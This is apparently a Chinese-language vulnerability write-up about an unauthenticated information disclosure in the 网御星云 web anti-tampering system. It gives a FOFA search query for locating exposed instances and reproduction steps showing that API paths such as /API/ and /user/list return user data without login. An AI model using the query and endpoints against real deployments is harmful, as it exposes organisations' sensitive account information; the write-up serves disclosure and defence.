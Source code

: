 # 网御星云 web防护系统 信息泄露漏洞

## 漏洞描述

网御星云 web防护系统 存在信息泄露漏洞，通过访问特殊的Url获取部分敏感信息

## 漏洞影响

```
网御星云
```

## FOFA

```
title="网页防篡改系统"
```

## 漏洞复现

登录页面如下



![image-20220209200743358](./images/202202092007654.png)



访问



```plain
http://xxx.xxx.xxx.xxx/API/
```



![image-20220209200809080](./images/202202092008160.png)

部分 API请求 不需要登录即可访问获取信息，例如 **/user/list**



![image-20220209200829973](./images/202202092008053.png)